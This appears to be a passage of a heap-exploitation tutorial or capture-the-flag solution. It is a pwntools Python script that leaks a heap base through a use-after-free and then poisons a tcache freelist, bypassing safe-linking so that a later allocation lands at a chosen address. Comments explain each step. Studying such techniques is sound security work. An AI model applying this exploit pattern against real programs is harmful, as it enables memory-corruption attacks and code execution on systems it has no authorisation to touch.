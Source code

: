 ```python
    io.sendlineafter(b"> ", str(size).encode())
    io.sendafter(b"> ", payload)

def free(index: int):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"> ", str(index).encode())

def edit(index: int, payload: bytes):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"> ", str(index).encode())
    io.sendafter(b"> ", payload)

def puts(index: int):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"> ", str(index).encode())
    io.recvuntil(b"> ")
    leak = io.recvline().strip(b"\n")
    return leak

io = start()

# allocate chunk0
p = b"A"*8
malloc(0, 0x40, p)

# free chunk0
free(0)

# leak heap base via chunk 0
heap_leak = puts(0)
heap_leak = heap_leak[:8]
heap_leak = u64(heap_leak.ljust(8,b"\x00"))
heap_base = heap_leak << 12
print("heap_base:",hex(heap_base))

# allocate the chunk again and allocate another one of the same size
malloc(1, 0x40, p)
malloc(2, 0x40, p)

# free chunk2 and then chunk1
# this will cause: chunk1 -> chunk2
free(2)
free(1)

# edit the ptr in chunk1 -> target
# when doing this, we need to know the address of chunk1 so we can use
# the safe_link function
# I call the function that contains the ptr the 'home' chunk
# By inspecting the heap we can see that the home chunk is at
# offset 0x2a0 from the heap base address
home = heap_base + 0x2a0
# We will just target heap_base + 0x100 to demonstrate
# It is important that the address is read/writable and that it is
# 16 byte aligned, meaning the last character of the address
# should be '0' and not '8' or something else
target = heap_base + 0x100
addr = safe_link(home, target)
p = p64(addr)
edit(1, p)

# next up we allocate chunk1 again and then we allocate chunk2
# which was manipulated by us to point
# to heap_base+0x100
```